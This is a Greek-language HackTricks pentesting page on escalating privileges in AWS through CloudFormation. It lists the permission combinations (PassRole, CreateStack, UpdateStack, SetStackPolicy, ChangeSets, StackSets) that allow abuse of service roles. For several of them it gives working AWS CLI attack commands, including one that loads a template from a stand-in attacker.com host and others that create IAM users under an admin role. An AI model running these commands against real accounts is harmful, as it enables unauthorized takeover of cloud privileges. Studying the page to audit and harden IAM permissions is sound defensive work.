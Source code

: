# AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Για περισσότερες πληροφορίες σχετικά με το cloudformation, ελέγξτε:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Ένας επιτιθέμενος με αυτές τις άδειες **μπορεί να κλιμακώσει τα προνόμια** δημιουργώντας ένα **CloudFormation stack** με ένα προσαρμοσμένο πρότυπο, φιλοξενούμενο στον διακομιστή τους, για να **εκτελέσει ενέργειες υπό τις άδειες ενός καθορισμένου ρόλου:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Στη συνέχεια έχετε ένα **παράδειγμα εκμετάλλευσης** με την επιπλέον άδεια **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που καθορίζεται.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Σε αυτή την περίπτωση μπορείτε να **καταχραστείτε μια υπάρχουσα στοίβα cloudformation** για να την ενημερώσετε και να κλιμακώσετε τα προνόμια όπως στο προηγούμενο σενάριο:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει καθοριστεί.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Εάν έχετε αυτή την άδεια αλλά **όχι `iam:PassRole`**, μπορείτε ακόμα να **ενημερώσετε τα stacks** που χρησιμοποιούνται και να εκμεταλλευτείτε τους **IAM Ρόλους που έχουν ήδη συσχετιστεί**. Ελέγξτε την προηγούμενη ενότητα για παράδειγμα εκμετάλλευσης (απλά μην υποδείξετε κανέναν ρόλο στην ενημέρωση).

Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει ήδη συσχετιστεί.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ένας επιτιθέμενος με άδειες να **περάσει έναν ρόλο και να δημιουργήσει & εκτελέσει ένα ChangeSet** μπορεί να **δημιουργήσει/ενημερώσει ένα νέο cloudformation stack και να εκμεταλλευτεί τους ρόλους υπηρεσίας cloudformation** ακριβώς όπως με το CreateStack ή UpdateStack.

Η παρακάτω εκμετάλλευση είναι μια **παραλλαγή της**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) χρησιμοποιώντας τις **άδειες ChangeSet** για να δημιουργήσει ένα stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδειες `ChangeSet`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc σε ρόλους υπηρεσίας cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Αυτό είναι όπως η προηγούμενη μέθοδος χωρίς να περάσετε **ρόλους IAM**, οπότε μπορείτε απλά να **καταχραστείτε αυτούς που είναι ήδη συνδεδεμένοι**, απλά τροποποιήστε την παράμετρο:
```
--change-set-type UPDATE
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που είναι ήδη συνδεδεμένος.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτές τις άδειες για να δημιουργήσει/ενημερώσει StackSets για να εκμεταλλευτεί αυθαίρετους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους ρόλους υπηρεσίας cloudformation.

### `cloudformation:UpdateStackSet`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτή την άδεια χωρίς την άδεια passRole για να ενημερώσει StackSets για να εκμεταλλευτεί τους συνδεδεμένους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους συνδεδεμένους ρόλους cloudformation.

## Αναφορές

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
